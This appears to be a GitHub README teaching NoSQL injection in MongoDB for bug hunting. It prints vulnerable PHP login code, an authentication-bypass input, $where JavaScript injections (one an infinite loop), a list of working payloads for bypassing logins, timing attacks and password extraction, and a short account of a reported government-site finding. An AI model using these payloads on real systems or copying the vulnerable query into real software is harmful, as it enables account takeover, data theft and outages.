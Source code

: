 # NoSQL_injection_stuff

Learn what is NoSQL injection and how to find them.

Content:
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#what-is-nosql-">What is NoSQL database ?</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#what-is-nosql-injection-">What is NoSQL injection ?</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#why-to-learn-nosql-injection">Why to learn NoSQL injection ?</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#mongodb-injection-example-in-a-php-application">MongoDB Injection Example in a PHP Application</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#advanced-attacks-and-javascript-injections-ssji-injection"> Advanced Attacks and JavaScript Injections (SSJI injection)</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#how-to-automate-nosql-injection">How to automate NoSQL injection ?</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#tools-">Tools to automate NoSQL injection</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#payloads">NoSQL injection payloads</a>
* <a href="https://github.com/DevanshRaghav75/NoSQL_injection_stuff/blob/main/README.md#how-i-found-nosql-injection-on-dutch-goverment-website-and-got-a-t-shirt">How I found NoSQL injection on dutch goverment website</a>


## What is NoSQL ?

When people use the term ```“NoSQL database”```, they typically use it to refer to any non-relational database. Some say the term ```“NoSQL”``` stands for ```“non SQL”``` while others say it stands for ```“not only SQL.”``` Either way, most agree that ```NoSQL databases``` are databases that store data in a format other than relational tables.

A common misconception is that ```NoSQL databases``` or non-relational databases don’t store relationship data well. ```NoSQL databases``` can store relationship data—they just store it differently than relational databases do. In fact, when compared with ```SQL databases```, many find modeling relationship data in ```NoSQL databases``` to be easier than in ```SQL databases```, because related data doesn’t have to be split between tables.

```NoSQL``` data models allow related data to be nested within a single data structure.

```NoSQL databases``` emerged in the late 2000s as the cost of storage dramatically decreased. Gone were the days of needing to create a complex, difficult-to-manage data model simply for the purposes of reducing data duplication. Developers (rather than storage) were becoming the primary cost of software development, so ```NoSQL databases``` optimized for developer productivity.

## What is NoSQL injection ?

A ```NoSQL injection``` vulnerability is an error in a ```web application``` that uses a ```NoSQL database```. This web application security issue lets a malicious party bypass authentication, extract data, modify data, or even gain complete control over the application. ```NoSQL injection``` attacks are the result of a lack of data sanitization.

## Why to learn NoSQL injection ?

Now most of the websites are using ```NoSQL database```,its difficult to find ```SQL injection``` on websites so its time to upgrade to ```NoSQL injection```.

## MongoDB Injection Example in a PHP Application

To understand how a ```NoSQL``` query is constructed and how it is vulnerable to an `injection` attack, we will focus on the most popular ```NoSQL database```: `MongoDB`, and we will access it using `PHP`. Here is a simple example of a code snippet that accesses a `MongoDB` for authentication purposes.

* Vulnerable code
```
$username = $_POST['username'];
$password = $_POST['password'];
$connection = new MongoDB\Client('mongodb://localhost:27017');
if($connection) {
	$db = $connection->test;
	$users = $db->users;
	$query = array(
		"user" => $username,
		"password" => $password
	);
	$req = $users->findOne($query);
}
```

As you can see, in this example, `username` and `password` used for authentication are taken from a `POST` request and then directly used in the query. Similar to other types of `injection`, a `malicious user` may supply a `NoSQL injection payload` that tricks the database.

To perform a successful `MongoDB injection`, it is enough if the attacker supplies the following `malicious` input data as a POST request:

```
username[$eq]=admin&password[$ne]=foo
```
* NOTE: Mongodb uses NoSQL database 

The `[$ne]` query operator means not equal. Therefore, the resulting query will find the first record in which the `username` is admin and the `password` is not foo. If this code is used for authentication, the attacker is logged in as the admin user.

More operators can be used in a similar fashion, for example `[$lt]` and `[$gt]` as well as `[$regex]`. Regular expressions can even allow the attacker to enumerate all users in the above scenario by trying combinations in sequence and evaluating the result.

## Advanced Attacks and JavaScript Injections (SSJI injection)

`MongoDB` queries support a commonly used operator `$where`, which introduces possibilities of serious `NoSQL attacks` that include JavaScript objects.

For example, a developer might want to use the `$where` operator in the following fashion to access a record for a particular user:
```
$query = array('$where' => 'this.name === \''.$name.'\'');
```

In this situation, the attacker may provide the following empty string comparison trick as $name:

```'; return '' == '```

As a result, the query will become:

```"$where": "this.name === ''; return '```

And the attacker will receive the entire list of users.

Since the $where operator is actually evaluated as JavaScript code, the attacker could also pass a malicious string that includes arbitrary JavaScript, for example:

```'; while(true){}'```

## How to automate NoSQL injection ?

There are very less tools and resources `because its new to peoples, I know two tools that will automate the exploitation of `NoSQL injection` but note that these tools can give `false positive` so if these tools find any `NoSQL injection` issue so don't report it before you check that the `injection exists or not`.

## Tools :
* NoSQLi - https://github.com/Charlie-belmer/nosqli
* NoSQLi scanner extenstion of Burp suit

`NoSQLi` is very easy to install, You can just `clone it` or can run `apt-get install nosqli` in your terminal.

But `NoSQLi scanner` is only available for `Burp suit pro users` so if you use burp pro then you can easily use this extension, First goto `Extenter tab` than `search NoSQLi scanner` now click on `install`, If you want to use this extension you can just right click on target then click on Actively scan this host after that the extension will automatically start scanning. 

## Payloads 
These are some payloads you can use to identify NoSQL injection vulnerability:
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
|| 1==1//
|| 1==1%00
}, { password : /.*/ }
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';sleep(5000);
';it=new%20Date();do{pt=new%20Date();}while(pt-it<5000);
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

## How I found NoSQL injection on Dutch goverment website and got a t-shirt

Yes, I found `NoSQL injection` on dutch goverment website so lets see how I found that.

I found it very easily without `recon`, I just used burp `NoSQLI scanner extension`, Its my habit to scan the host activily using Active ++ extension before going in deep like recon, enumeration and all that stuff so as always I used active ++ and NoSQLi extension to find bugs and after waiting 1-2 hours I got some NoSQL/SSJI injection issues so I decided to check that the issue exists or not so I clicked on show response in browser and I found that the injection exists so I reported that and as a token of appreciation they gave me a t-shirt.

THE END !

